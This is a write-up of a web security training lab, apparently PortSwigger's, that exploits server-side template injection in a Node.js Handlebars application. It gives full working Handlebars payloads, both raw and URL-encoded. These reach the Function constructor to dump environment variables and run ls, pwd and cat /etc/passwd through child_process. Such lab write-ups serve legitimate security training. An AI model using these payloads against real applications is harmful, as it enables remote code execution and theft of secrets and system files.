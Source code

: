 
# 12 - Server-side template injection in an unknown language with a documented exploit

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

---------------------------------------------

References:

- http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

- https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet

---------------------------------------------

Generated link: https://0ab300360386552481b34d2700c600da.web-security-academy.net

The content of the message is reflected in the HTML inside a div element:



![img](images/12%20-%20Server-side%20template%20injection%20in%20an%20unknown%20language%20with%20a%20documented%20exploit/1.png)

Checking with https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message=TEST:



![img](images/12%20-%20Server-side%20template%20injection%20in%20an%20unknown%20language%20with%20a%20documented%20exploit/2.png)

Error with https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message={{7*7}}. It seems it uses Node.js and handlebars:



![img](images/12%20-%20Server-side%20template%20injection%20in%20an%20unknown%20language%20with%20a%20documented%20exploit/3.png)

I will follow: http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

{{this.__proto__}} with https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message={{this.__proto__}}:



![img](images/12%20-%20Server-side%20template%20injection%20in%20an%20unknown%20language%20with%20a%20documented%20exploit/4.png)

Get process.env with:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Url-encode it and get the content with https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%4a%53%4f%4e%2e%73%74%72%69%6e%67%69%66%79%28%70%72%6f%63%65%73%73%2e%65%6e%76%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d:



![img](images/12%20-%20Server-side%20template%20injection%20in%20an%20unknown%20language%20with%20a%20documented%20exploit/5.png)

Execute ls -la:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('ls',['-la']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
``` 

Url-encode it and get the content with https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%73%70%61%77%6e%28%27%6c%73%27%2c%5b%27%2d%6c%61%27%5d%29%2e%73%74%64%6f%75%74%2e%6f%6e%28%27%64%61%74%61%27%2c%20%66%75%6e%63%74%69%6f%6e%20%28%64%61%74%61%29%20%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%27%6f%77%6e%27%2b%20%64%61%74%61%29%3b%20%7d%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d:



![img](images/12%20-%20Server-side%20template%20injection%20in%20an%20unknown%20language%20with%20a%20documented%20exploit/6.png)

cat /etc/passwd:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('cat',['/etc/passwd']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
``` 



![img](images/12%20-%20Server-side%20template%20injection%20in%20an%20unknown%20language%20with%20a%20documented%20exploit/7.png)

pwd:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('pwd',[' ']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```



![img](images/12%20-%20Server-side%20template%20injection%20in%20an%20unknown%20language%20with%20a%20documented%20exploit/8.png)

The solution is directly in https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection...




![img](images/12%20-%20Server-side%20template%20injection%20in%20an%20unknown%20language%20with%20a%20documented%20exploit/9.png)

